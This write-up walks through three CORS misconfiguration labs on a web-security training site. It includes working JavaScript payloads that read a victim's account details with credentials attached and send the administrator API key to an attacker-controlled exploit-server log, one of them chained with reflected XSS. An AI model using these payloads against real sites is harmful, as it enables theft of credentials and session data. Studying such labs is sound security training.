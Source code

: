

**Step1:**

Login to account using wiener and peter


**Step2:**

Now we view /accountDetails request in burpuite.

It is clear that the access-contol-allow-credential is set to true.

Now we inject a basic origin

And in result we can see it is access-control-allow-origin is set to `https://hello.com`

The Access-Control-Allow-Origin response header indicates whether the response can be shared with requesting code from the given origin

**Step3:**

To exploit this there are different approach we use XML request

Exploit
```
<script>

    const labId = 'YOUR-LAB-ID'; // Replace with your unique lab ID

    const url = `https://${labId}.web-security-academy.net/accountDetails`;

    fetch(url, {

        method: 'GET',

        credentials: 'include' // This allows cookies to be sent with the request

    })

    .then(response => response.text())

    .then(data => {

        // Redirect to log page with the key from the response

        location = '/log?key=' + data;

    })

    .catch(error => console.error('Error:', error));

</script>
```


And we can see Administrator API key in logs..click on access log


Copy the API key by first URL decode and submit answer.

**Alternative Payload**
```
<script>

    var labId = 'YOUR-LAB-ID'; // Replace with your unique lab ID

    var req = new XMLHttpRequest();

    req.onload = function() {

        if (this.status === 200) {

            // Redirect to log page with the key from the response

            location = '/log?key=' + this.responseText;

        } else {

            console.error('Request failed with status: ' + this.status);

        }

    };

    req.open('GET', 'https://' + labId + '.web-security-academy.net/accountDetails', true);

    req.withCredentials = true;

    req.send();

</script>
```

Or
```
<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='/log?key='+this.responseText; }; </script>
```


**Step1:**

Login with given credential

**Step2:**

View the /accountDetail request in burpsuite in http history

Now send it to repeater and make this change

Here we see it allow null orgin

**Step3:**

Now we create a sandbox enviroment using iframe that generate null origin for CORS

CORS Vulnerability: In the scenario, the target server accepts requests with a null origin due to improper CORS setup. This allows the JavaScript within the <iframe> to make an XMLHttpRequest to /accountDetails on the lab server, thereby retrieving sensitive information (like the administrator’s API key).

To solve this lab we use payload
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>

    var req = new XMLHttpRequest();

    req.onload = reqListener;

    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);

    req.withCredentials = true;

    req.send();

    function reqListener() {

        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);

    };

</script>"></iframe>
```

Decode the result of access log

And submit api key

Notice the use of an iframe sandbox as this generates a null origin request.

**Step1:**

Login in with given credential

**Step2:**

Now again we open /AccountDetail request in repeater

If we change Origin to anything.Lab-ID it is not give error

**Step3.**

Now we find any vulnerable subdomain on webpage.

In Home->viewDetail->check tock  there is a an XSS vulnerability

**Step4:**

Now we use exploit with this subdomain.

So exploited point:`https://stock.0a56005c03d1c93e812cac8800110021.web-security-academy.net/?productId=1&storeId=1`

Script:
```
<script>

    var req = new XMLHttpRequest();

    req.onload = reqListener;

    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);

    req.withCredentials = true;

    req.send();

    function reqListener() {

        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);

    };

</script>
```
Final exploit
```
<script>  
    document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"  
</script>
```
Store and deliver it to victim

Results:



Step5:

